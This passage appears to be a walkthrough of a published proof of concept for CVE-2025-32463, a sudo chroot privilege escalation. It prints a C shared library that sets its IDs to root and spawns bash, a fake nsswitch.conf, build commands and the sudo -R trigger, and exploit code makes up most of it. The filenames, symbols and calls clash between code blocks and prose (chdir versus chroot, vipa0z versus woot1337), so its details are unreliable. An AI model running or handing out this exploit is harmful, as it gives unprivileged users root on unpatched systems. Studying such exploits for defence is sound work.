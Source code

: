 ## The exploit
with all the ABC out of the way, now for the fun part:
let's start by grapping this  PoC, written by [pr0v3rbst](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot) and begin to dissect it
This exploit utilizes a shared library object (`.so`) to create a bash process running as the root user
```c
cat > vipa0z.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF
```
We begin by defining a **constructor function** in C, a special function marked to execute **before `main()` runs**. Inside this constructor, the process’s **effective user ID and group ID** (`euid` and `egid`) are both set to `0`, giving the process **root-level privileges**.

Next, the code calls `chroot("/")`, effectively **breaking out of the chroot jail** by resetting the root directory back to the actual system root (`/`). This bypasses the restricted environment (e.g., `/web`) and restores full access to the real filesystem.
### nsswitch
we then **Create a fake `nsswitch.conf`** inside the `woot` directory and inject the following line:
```shell
mkdir -p woot/etc libnss_
echo "passwd: /vipa0z" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```
This instructs the system to treat `/vipa0z` as the NSS source when resolving user account information (like `/etc/passwd`). When the system sees this entry, it will attempt to load a shared object named `libnss_vipa0z.so`.
```
cp /etc/group /web/etc
```

**Copy `/etc/group`** into the jail so group lookups don’t fail when the process runs in chroot.
    
- **Compile the shared object** (`vipa0z.c`) into a `.so` file and move it to a `/libnss_` directory (the _lib_ folder)
```
gcc -shared -fPIC -Wl,-init,web -o libnss_/vipa0z.so.2 vipa0z.c
```
